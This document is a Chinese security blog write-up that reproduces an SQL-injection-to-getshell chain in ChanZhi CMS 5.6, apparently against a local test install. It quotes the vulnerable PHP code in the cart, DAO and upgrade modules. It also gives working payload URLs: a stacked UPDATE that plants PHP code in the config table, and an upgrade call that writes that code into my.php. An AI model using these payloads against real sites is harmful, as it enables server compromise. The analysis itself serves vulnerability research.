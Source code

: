 >小密圈里的师傅们几乎把蝉知日穿了，好奇心驱使下，我找到了和师傅们一致的版本，果然复现的感觉和单纯的看分析有很大的不同

1. **5.6 从sql注入到getshell**
**原文:**[俊杰师傅原文地址](http://www.yqxiaojunjie.com/index.php/archives/308/)
这个版本的cms在圈里有师傅总结了下，就是其在拼接sql语句时，有些方法会addslash，但是其偏偏遗漏一个方法set()，sql注入就发生在这里
**/system/module/cart/control.php**
```php
    public function add($product, $count)
    {
        if($this->app->user->account == 'guest')
        {
            /* Save info to cookie if user is guest. */
            $this->cart->addInCookie($product, $count);
            $this->send(array('result' => 'success', 'message' => $this->lang->saveSuccess));
        }
        else
        {
            $result = $this->cart->add($product, $count);
            if($result) $this->send(array('result' => 'success', 'message' => $this->lang->saveSuccess));
            $this->send(array('result' => 'fail', 'message' => dao::getError()));
        }
    }
```
**/system/module/cart/model.php**
```php
    public function add($productID, $count)
    {
        $hasProduct = $this->dao->select('count(id) as count')->from(TABLE_CART)->where('account')->eq($this->app->user->account)->andWhere('product')->eq($productID)->fetch('count');

        if(!$hasProduct)
        {
            $product = new stdclass();
            $product->product = $productID;
            $product->account = $this->app->user->account;
            $product->count   = $count;
            $this->dao->insert(TABLE_CART)->data($product)->exec();
        }
        else
        {
            $this->dao->update(TABLE_CART)->set("count= count + {$count}")->where('account')->eq($this->app->user->account)->andWhere('product')->eq($productID)->exec();
        }

        return !dao::isError();
    }
```
**DAO类中描述了所有数据库操作函数/sysytem/lib/base/dao/dao.class.php**
```php
    public function set($set)
    {
        /* Add ` to avoid keywords of mysql. */
        if(strpos($set, '=') ===false)
        {
            $set = str_replace(',', '', $set);
            $set = '`' . str_replace('`', '', $set) . '`';
        }

        $this->sql .= $this->isFirstSet ? " $set" : ", $set";
        if($this->isFirstSet) $this->isFirstSet = false;
        return $this;
    }
```
这里就是一个危险的参数被赤裸的拼接成了sql语句，在原文的利用中是因为url路由被设置为了path_info模式导致不能出现"_"，所以不能控制带有"_"的数据库，俊杰师傅利用pdo支持堆叠查询的特性，声明十六进制编码后的查询变量，再执行，达到控制数据库数据的目的
而，我在拿到cms的时候，第一件事就是把路由设为了get....，因为这样比较好看。所以我只是复现了堆叠的特性
**payload**
```url
http://127.0.0.1/chanzhieps/www/index.php?m=cart&f=add&product=1&count=1;UPDATE eps_config set lang='\'];phpinfo();//' wHeRe `key`  = 'mobileTemplate' --+&t=html
```
```url
http://127.0.0.1/chanzhieps/www/admin.php?m=upgrade&f=processSQL
post:fromVersion=5_5
```
效果**my.php**
```php
$config->framework->detectDevice[''];phpinfo();//'] = true;
```
这里为什么选择upgrade呢，看下文件内容
**/system/module/upgrade/control.php**
```php
    public function processSQL()
    {
        $this->upgrade->execute($this->post->fromVersion);

        $this->upgrade->processCDN();

        $this->view->title = $this->lang->upgrade->result;

        if(!$this->upgrade->isError())
        {
            $this->loadModel('setting')->setItems('system.common.global', array('ignoreUpgrade' => 0));
            $this->view->result = 'success';
        }
        else
        {
            $this->view->result = 'fail';
            $this->view->errors = $this->upgrade->getError();
        }
        $this->display();
    }
}
```
**/system/module/upgrade/model.php**
```php
public function execute($fromVersion)
    {
        switch($fromVersion)
        {
            case '1_0': $this->execSQL($this->getUpgradeFile('1.0'));
            case '1_1': $this->execSQL($this->getUpgradeFile('1.1'));
            case '1_2': $this->execSQL($this->getUpgradeFile('1.2'));
            case '1_3': $this->execSQL($this->getUpgradeFile('1.3'));
            case '1_4': $this->execSQL($this->getUpgradeFile('1.4'));
            case '1_5': 
            .
            .
            .
            case '5_5':
                $this->fixDetectDeviceConfig();
                $this->execSQL($this->getUpgradeFile('5.5'));
```
```php
public function fixDetectDeviceConfig()
    {
        $mobileTemplateConfigList = $this->dao->setAutoLang(false)->select('value, lang')->from(TABLE_CONFIG)
            ->where('`key`')->eq('mobileTemplate')
            ->fetchAll();
        if(!empty($mobileTemplateConfigList))
        {
            $myFile = $this->app->getConfigRoot() . 'my.php';
            file_put_contents($myFile, "\n", FILE_APPEND);
            foreach($mobileTemplateConfigList as $mobileTemplateConfig)
            {
                $fixedConfig = '$config->framework->detectDevice[' . "'{$mobileTemplateConfig->lang}'] = ";
                $fixedConfig .= $mobileTemplateConfig->value == 'open' ? 'true' : 'false';
                $fixedConfig .= ";\n";
                file_put_contents($myFile, $fixedConfig, FILE_APPEND);
            }
        }
    }
}
```
可见，从数据库取出的参数$mobileTemplateConfigList，就是我们可控，并写入文件getshell的内容